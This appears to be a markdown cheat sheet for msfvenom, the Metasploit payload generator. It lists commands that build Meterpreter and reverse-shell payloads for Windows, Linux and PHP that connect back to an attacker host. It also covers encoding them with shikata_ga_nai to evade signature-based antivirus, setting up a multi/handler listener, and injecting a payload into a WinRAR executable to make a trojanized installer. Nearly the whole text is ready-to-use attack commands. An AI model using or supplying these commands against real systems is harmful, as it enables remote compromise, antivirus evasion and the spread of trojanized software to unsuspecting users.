 # Msfvenom

Command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers.




## List
```
msfvenom --list payloads
# Example (STAGED PAYLOAD): /windows/x64/meterpreter/reverse_tcp
# Example (NON-STAGED PAYLOAD): /windows/x64/meterpreter_reverse_tcp

msfvenom --list formats



msfvenom -l payloads --platform windows --arch x64

```











## Generate payload


### executable
```
## Windows 32 bits
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f exe > payloadx86.exe

## Windows 64 bit
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f exe > payloadx64.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.174 LPORT=443 -f exe > reverse.exe



## Linux x86
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f elf > payloadx86

## Linux x64
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -f elf > payloadx64










## PHP
msfvenom -p php/reverse_php LPORT=4444 LHOST=192.168.45.238  -f raw > rs.pHP

```












### code

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"











#### Encoding Payloads

Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature.

Most end user AV solutions utilize signature based detection in order to identify malicious files or executables.

We can evade older signature based AV solutions by encoding our payloads.



```
msfvenom --list encoders
Example: x86/shikata_ga_nai (both for Linux and Windows payloads)


msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -i 10 -e x86/shikata_ga_nai -f exe > encoded_payloadx86.exe

msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -e x86/shikata_ga_nai -f exe > encoded_payloadx86.exe

```






















## Multi Handler (msfvenom + metasploit)
Listen

```
> use multi/handler
> set PAYLOAD windows/x64/meterpreter/reverse_tcp
> set LHOST
> set LPORT
> run # or  `exploit -j` (to run as background job)


```




















## Injecting Payloads Into Windows Portable Executables

Not all portable executable allows a successful injection.

The WinRAR portable works fine.

```
# Example with WinRAR
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -i 10 -e x86/shikata_ga_nai -f exe -x wrar602.exe  > winrar.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[SOME PORT, ex 1234] -i 10 -e x86/shikata_ga_nai -f exe -k -x wrar602.exe  > winrar.exe # error with -k flag!



```


